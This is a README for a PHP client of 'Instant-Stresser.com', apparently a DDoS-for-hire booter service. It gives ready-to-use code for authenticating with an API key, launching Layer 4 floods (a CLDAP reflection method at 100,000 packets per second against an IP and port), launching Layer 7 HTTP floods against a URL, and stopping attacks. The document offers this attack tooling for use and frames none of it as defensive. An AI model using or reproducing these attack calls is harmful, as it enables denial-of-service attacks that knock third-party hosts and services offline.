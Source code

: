 # Instant-Stresser-API
Sample API usage of Instant-Stresser.com

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://instant-stresser.com/help/methodsdoc

## Authentication
```php
require 'API.php';
// UserID and API Key generated from API Manager website.
$api = new API("UserID", "your-apikey");
```

## Layer 4 Attack
```php
/* Parameters : IPv4 , Port , Time , Method , Slots, PPS */
$response = $api->startL4("1.1.1.1", 80, 15, "CLDAP", 1, 100000);
```
## Layer 7 Attack
```php
/* Parameters : URL , Time , Method , Slots , Type, Ratelimit (true = enable, false = disabled) */
$response = $api->startL7("https://example.com/", 15, "HTTP1", 1, "GET", false);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
echo $response; // Get API response.
```
